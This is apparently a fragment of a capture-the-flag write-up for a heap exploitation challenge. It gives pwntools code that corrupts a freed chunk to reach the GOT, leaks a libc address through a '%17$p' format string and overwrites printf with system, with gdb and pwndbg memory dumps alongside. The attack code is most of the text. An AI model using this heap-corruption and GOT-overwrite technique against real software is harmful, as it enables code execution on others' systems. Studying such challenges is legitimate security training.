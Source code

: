 ```python
add(0x10, '/bin/sh\0')

delete(1)
edit(0, 0x100, flat('x' * 0x50, 0, 0x61, 0x601ffa))

add(0x50, '222222')
# add(0x50, cyclic(n=8, length=0x30))
add(0x50, flat('\0' * 14, flat(elf.sym['printf'])[:6]))

pause()
delete(2)
p.recvuntil('.')
libc.address = int(p.recvuntil('.', drop = True), 16) - 0x20840
print('libc @ {:#x}'.format(libc.address))
assert libc.address & 0xfff == 0
```
gdb set break to free of delete, find the index is 4
```gdb -q -p `pidof pwn` -ex "b *0x400CDD" -ex "c"```
```
pwndbg> telescope 0x6020C0 20
00:0000│   0x6020c0 (itemlist) ◂— 0x50 /* 'P' */
01:0008│   0x6020c8 (itemlist+8) —▸ 0x1a70030 ◂— 'xxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxxx'
02:0010│   0x6020d0 (itemlist+16) ◂— 0x50 /* 'P' */
03:0018│   0x6020d8 (itemlist+24) —▸ 0x1a70090 ◂— 0x323232323232 /* '222222' */
04:0020│   0x6020e0 (itemlist+32) ◂— 0x10
05:0028│   0x6020e8 (itemlist+40) —▸ 0x1a700f0 ◂— 0x2e70243731252e /* '.%17$p.' */
06:0030│   0x6020f0 (itemlist+48) ◂— 0x10
07:0038│   0x6020f8 (itemlist+56) —▸ 0x1a70110 ◂— 0x68732f6e69622f /* '/bin/sh' */
08:0040│   0x602100 (itemlist+64) ◂— 0x50 /* 'P' */
09:0048│   0x602108 (itemlist+72) —▸ 0x60200a (_GLOBAL_OFFSET_TABLE_+10) ◂— 0x0
0a:0050│   0x602110 (itemlist+80) ◂— 0x0
... ↓

```
edit to system address
```python
add(0x50, '000000')
add(0x50, '111111')
add(0x10, '.%17$p.')
add(0x10, '/bin/sh\0')

delete(1)
edit(0, 0x100, flat('x' * 0x50, 0, 0x61, 0x601ffa))

add(0x50, '222222')
# add(0x50, cyclic(n=8, length=0x30))
add(0x50, flat('\0' * 14, flat(elf.sym['printf'])[:6]))

delete(2)
p.recvuntil('.')
libc.address = int(p.recvuntil('.', drop = True), 16) - 0x20840
print('libc @ {:#x}'.format(libc.address))
assert libc.address & 0xfff == 0

pause()
edit(4, 0x50, flat('\0' * 14, flat(libc.sym['system'])[:6]))
```
gdb break set to the read function in edit
``` gdb -q -p `pidof pwn` -ex "b *0x400C05" -ex "c"```
from printf change to system
```
